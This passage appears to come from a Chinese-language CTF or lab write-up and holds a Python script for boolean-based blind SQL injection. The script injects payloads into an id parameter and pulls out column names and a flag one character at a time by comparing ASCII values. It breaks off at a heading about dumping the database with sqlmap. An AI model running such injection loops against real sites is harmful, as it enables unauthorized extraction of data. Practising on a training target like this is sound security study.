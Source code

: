 ```sql

def check_column_length():
    for i in range(1,100):
        url_column =url+"?id=1' and "+sqli_length['sqli_column']+f"={i}--+"
        print(url_column)
        resp = requests.get(url_column)
        if 'You are in...........' in resp.text:
            return i

def check_column_str():
    answer = ''
    for i in range(1, check_column_length() + 1):
        for j in range(1, 128):
            url_column = url + "?id=1' and " + "ascii(" + sqli_str['sqli_column'] + f",{i},1))={j}--+"
            print(url_column)
            resp = requests.get(url_column)
            if 'You are in...........' in resp.text:
                answer += chr(j)
                print(chr(j))
                break
        print(f'{i}号位结束')
    return answer

def check_flag_length():
    for i in range(1,200):
        url_flag =url+"?id=1' and "+sqli_length['sqli_flag']+f"={i}--+"
        print(url_flag)
        resp = requests.get(url_flag)
        if 'You are in...........' in resp.text:
            return i

def check_flag_str():
    answer = ''
    for i in range(1, check_flag_length() + 1):
        for j in range(1, 128):
            url_flag = url + "?id=1' and " + "ascii(" + sqli_str['sqli_flag'] + f",{i},1))={j}--+"
            print(url_flag)
            resp = requests.get(url_flag)
            if 'You are in...........' in resp.text:
                answer += chr(j)
                print(chr(j))
                break
        print(f'{i}号位结束')
    return answer

print(check_flag_str())
```

##### 使用 sqlmap
**爆库**
